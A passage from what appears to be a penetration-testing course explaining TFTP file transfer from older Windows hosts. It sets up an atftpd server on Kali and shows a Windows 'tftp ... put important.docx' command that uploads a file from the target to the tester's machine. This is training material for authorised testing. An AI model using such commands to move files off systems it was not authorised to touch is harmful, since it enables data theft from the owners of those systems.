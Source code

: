 During a penetration test, we can use TFTP to transfer files from older Windows operating systems up to Windows XP and 2003. This is a terrific tool for non-interactive file transfer, but it is not installed by default on systems running Windows 7, Windows 2008, and newer.

For these reasons, TFTP is not an ideal file transfer protocol for most situations, but under the right circumstances, it has its advantages.

Before we learn how to transfer files with TFTP, we first need to install and configure a TFTP server in Kali and create a directory to store and serve files. Next, we update the ownership of the directory so we can write files to it. We will run atftpd as a daemon on UDP port 69 and direct it to use the newly created /tftp directory:

```bash
kali@kali:~$ sudo apt update && sudo apt install atftp
kali@kali:~$ sudo mkdir /tftp
kali@kali:~$ sudo chown nobody: /tftp
kali@kali:~$ sudo atftpd --daemon --port 69 /tftp
```

On the Windows system, we will run the tftp client with -i to specify a binary image transfer, the IP address of our Kali system, the put command to initiate an upload, and finally the filename of the file to upload.

The final command is similar to the one shown below in Listing 33:

```bash
C:\Users\Offsec> tftp -i 10.11.0.4 put important.docx
Transfer successful: 359250 bytes in 96 second(s), 3712 bytes/s
```

